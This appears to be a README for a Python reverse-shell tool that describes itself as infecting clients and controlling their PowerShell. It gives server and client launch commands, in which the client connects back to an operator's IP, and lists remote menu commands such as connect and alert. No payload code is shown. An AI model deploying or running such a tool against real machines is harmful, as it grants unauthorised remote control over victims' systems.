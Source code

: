 # Reverse-Shell
Infects clients and controls their powershell with Python.
To de instalation you need has a server (any operative system) and 
execute the python script.
#### Requirements

- 🐍 Python 3.x 🐍
- 💫 Open Ports 💫

#### Installation
Linux or Windows or  MacOs

#### [Server]

```sh
python3 server.py
```
#### [Client]
```sh
pip3 install colorama
python3 client.py {ip}
```

#### Extra commands

#### [Menu]

- connect {number}

#### [Shell Commmands]

- alert {title} {message}
- exit

#### Preview

<img src="https://i.imgur.com/icFpnKA.png"> 

